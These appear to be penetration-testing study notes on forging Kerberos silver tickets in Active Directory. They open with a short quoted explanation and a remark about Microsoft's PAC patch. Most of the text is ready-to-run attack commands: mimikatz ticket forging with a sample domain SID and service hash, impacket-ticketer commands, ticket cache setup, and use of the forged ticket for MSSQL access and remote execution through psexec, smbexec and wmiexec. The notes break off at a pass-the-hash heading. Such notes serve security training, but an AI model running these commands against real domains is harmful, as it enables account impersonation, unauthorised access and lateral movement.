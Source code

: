 #### Silver Tickets(Require SPN's hash, Domain's SID, SPN)
>Once we have access to the password hash of the SPN, a machine account, or user, we can forge the related service tickets for any users and permissions. This is a great way of accessing SPNs in later phases of a penetration test, as we need privileged access in most situations to retrieve the password hash of the SPN.

>Since silver and golden tickets represent powerful attack techniques, Microsoft created a security patch to update the PAC structure.5 With this patch in place, the extended PAC structure field PAC_REQUESTOR needs to be validated by a domain controller. This mitigates the capability to forge tickets for non-existent domain users if the client and the KDC are in the same domain. Without this patch, we could create silver tickets for domain users that do not exist. The updates from this patch are enforced from October 11, 2022.
```
whoami /user
kerberos::purge
kerberos::golden /user:jeffadmin(impersonated user) /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668(domain SID part from whoami /user) /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327(password hash of iis_service) /ptt
kerberos::list
```
```
Get Domain's sid:
Get-LocalUser -Name 'svc_mssql' | select name,sid(result without the last 3digits)

String Convert to NTLM hash:
https://codebeautify.org/ntlm-hash-generator

Get SPN:
Get-ADUser -Filter {SamAccountName -eq "svc_mssql"} -Properties ServicePrincipalNames
or
Import-Module .\PowerView.ps1
setspn -L svc_mssql

Exploiting silver ticket:
impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
# To generate the TGS with AES key
impacket-ticketer -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn> -user-id 500 Administrator

export KRB5CCNAME=$PWD/Administrator.ccache

Klist to view kerberos tickets

/etc/hosts:
192.168.227.21  nagoya.nagoya-industries.com(from MSSQL/nagoya.nagoya-industries.com@NAGOYA-INDUSTRIES.COM)

impacket-mssqlclient -k nagoya.nagoya-industries.com
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
#### Pass The Hash/Pass The Key
>In this attack, an attacker intercepts and steals a valid ticket-granting ticket (TGT) or service ticket (TGS) from a compromised user or service account.
